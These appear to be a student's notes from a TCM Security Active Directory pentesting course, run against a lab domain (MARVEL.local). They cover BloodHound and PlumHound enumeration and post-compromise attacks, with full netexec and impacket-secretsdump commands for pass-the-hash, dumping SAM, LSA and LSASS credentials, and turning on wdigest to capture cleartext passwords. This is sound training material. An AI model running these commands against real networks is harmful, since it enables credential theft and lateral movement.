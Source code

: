 - **==Bloodhound dump==** [[Domain Enumeration Bloodhound]]
	- Injestor: `sudo bloodhound-python -d MARVEL.local -u fcastle -p Password1 -ns 10.0.1.4 -c all`
	- `sudo neo4j console`
	- `sudo bloodhound`
	- Load collected data and **ENUMERATE**
	- **Double Click on Owned Users to find paths** 
	- [[Backup OPs, Account Ops, Exchange Wind Perms]]
	- ==If **domain admin is logged to non-domain controller**, we can do [[Token Impersonation Overview]]==
	- ==**Kerberoastable Users**==

- **Plumhound**
	- [[Plumhound]]
	- `sudo Plumhoundenv/bin/python PlumHound.py -x tasks/default.tasks -p neo4j1`
	- View report using: `firefox index.html`

- **PingCastle**
	- [[https://academy.tcm-sec.com/courses/1152300/lectures/48515112]]

# Post-Compromise Attacks
---
**How can I move laterally until I can move vertically?**
[[Post Compromise Strategy]]

- ==**Pass Attacks (Pass the Hash)**== [[Pass Attacks Lab]]
- ==**Very Very Common** to find same users on multiple machines==
	- For ==**enumerating where ELSE the compromised credentials have access to**==
		- `netexec smb 10.0.1.0/24 -u fcastle -d MARVEL.local -p Password1`
		- `netexec smb 10.0.1.0/24 -u pparker -H aad3b435b51404eeaad3b435b51404ee:e08e15bd995aa26400e3107deb56bb16 --local-auth --sam`
		- **==Local Auth is required as we have ONLY  dumped hashes of a normal domain machine not from NTDS.dit and HASH does not take domain as argument==**
	- To **test hash reuse across workstations** using a **dumped local admin hash**:
		- `netexec smb 10.0.0.0/24 -u <local_user> -H <hash> --local-auth`
	- ==**Dump SAM** when there is **successful access**==:
		- `netexec smb 10.0.1.0/24 -u pparker -H aad3b435b51404eeaad3b435b51404ee:e08e15bd995aa26400e3107deb56bb16 --local-auth --sam`
	- **Dumping LSA** (logged in saved hashes):
		- `netexec smb 10.0.1.0/24 -u pparker -H aad3b435b51404eeaad3b435b51404ee:e08e15bd995aa26400e3107deb56bb16 --local-auth --lsa`
	- **==LSASSY (logged in user's password from memory)==**:
		- `netexec smb 10.0.1.0/24 -u pparker -H aad3b435b51404eeaad3b435b51404ee:e08e15bd995aa26400e3107deb56bb16 --local-auth -M lsassy`
	- **KeyPass** is also a good one

- ==**SecretsDump**== [[Secretsdump and Cracking]]
	- go on **==every machine and dump secrets from there** (TODO: Make a bash script)
	- `impacket-secretsdump MARVEL.local/sstrange:'Password1'@10.0.1.0/24` => using **Password**
	- `impacket-secretsdump pparker:@10.0.1.10 -hashes aad3b435b51404eeaad3b435b51404ee:e08e15bd995aa26400e3107deb56bb16` => using **hash**
		- **Grab all the admin and normal users SAM hashes** (except for Guest and DefaultAccount, WDAGUtility)
		- Try to **crack them** as well
	- We might be able to see clear text passwords
	-  `wdigest`: **==Available on older windows (7, 8, XP)==**
		- We can see ==**domain admin` password if they have logged in from secretsdump in clear text
		- **==We can enable `wdigest (force and desperate attack, last resort)` with local admin access on machine and wait for domain admin to login==**
